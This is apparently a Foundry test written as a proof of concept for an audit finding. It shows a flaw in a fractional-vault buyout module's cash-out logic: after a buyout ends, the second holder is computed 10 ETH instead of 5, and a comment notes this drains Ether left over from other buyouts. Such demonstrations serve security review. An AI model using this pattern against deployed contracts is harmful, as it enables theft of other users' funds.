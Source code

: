```solidity
  setApproval(bob, vault, true);
  setApproval(bob, buyout, true);
  setApproval(eve, vault, true);
  setApproval(eve, buyout, true);

  alice.ferc1155.safeTransferFrom(
      alice.addr,
      bob.addr,
      1,
      6000,
      ""
  );

  alice.ferc1155.safeTransferFrom(
      alice.addr,
      eve.addr,
      1,
      2000,
      ""
  );
  /// ==================
  /// ===== SETUP END =====
  /// ==================

  /// Fraction balances:
  assertEq(getFractionBalance(alice.addr), 2000); // Alice: 2000
  assertEq(getFractionBalance(bob.addr), 6000); // Bob: 6000
  assertEq(getFractionBalance(eve.addr), 2000); // Eve: 2000

  bob.buyoutModule.start{value: 10 ether}(vault);

  assertEq(getETHBalance(buyout), 10 ether);

  /// Bob (proposer of buyout) transfered his fractions to buyout contract
  assertEq(getFractionBalance(buyout), 6000);

  vm.warp(rejectionPeriod + 1);

  bob.buyoutModule.end(vault, burnProof);

  /// Fraction balances after buyout ended:
  assertEq(getFractionBalance(alice.addr), 2000);  // Alice: 2000
  assertEq(getFractionBalance(bob.addr), 0); // Bob: 0
  assertEq(getFractionBalance(eve.addr), 2000); // Eve: 2000

  assertEq(getETHBalance(buyout), 10 ether);

  /// Alice cashes out 2000 fractions -> 5 ETH (correct amount)
  alice.buyoutModule.cash(vault, burnProof);

  assertEq(getFractionBalance(alice.addr), 0);
  assertEq(getETHBalance(alice.addr), 105 ether);

  /// Eve cashes out 2000 fractions -> REVERTS (internally it calculates Eve would receive 10 ETH instead of the entitled 5 ETH). If the contract holds sufficient Ether from other successful buyouts, Eve would receive the full 10 ETH
  eve.buyoutModule.cash(vault, burnProof);
}
```
